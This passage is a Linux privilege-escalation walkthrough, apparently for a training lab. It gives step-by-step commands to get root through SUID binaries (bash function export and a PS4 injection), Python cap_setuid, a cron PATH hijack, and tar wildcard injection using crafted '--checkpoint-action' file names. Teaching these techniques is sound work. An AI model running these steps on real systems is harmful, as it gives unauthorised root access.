 1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings `/usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

**Exploitation Method #1:**

1. In command prompt type: `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
2. In command prompt type: `export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`

**Exploitation Method #2:**

1. In command prompt type: `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`

### Capabilities

**Detection:**

1. In command prompt type: `getcap -r / 2>/dev/null`
2. From the output, notice the value of the “cap\_setuid” capability.

**Exploitation:**

1. In command prompt type: `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
2. Enjoy root!

### Cron (Path)

**Detection:**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the “PATH” variable.

**Exploitation:**

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
2. In command prompt type: `chmod +x /home/user/overwrite.sh`
3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: `/tmp/bash -p`
5. In command prompt type: `id`

### Cron (Wildcards)

**Detection:**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “/usr/local/bin/compress.sh”
3. In command prompt type: `cat /usr/local/bin/compress.sh`
4. From the output, notice the wildcard (\*) used by ‘tar’.

**Exploitation:**

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. `touch /home/user/--checkpoint=1`
3. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
4. Wait 1 minute for the Bash script to execute.
5. In command prompt type: `/tmp/bash -p`
6. In command prompt type: `id`
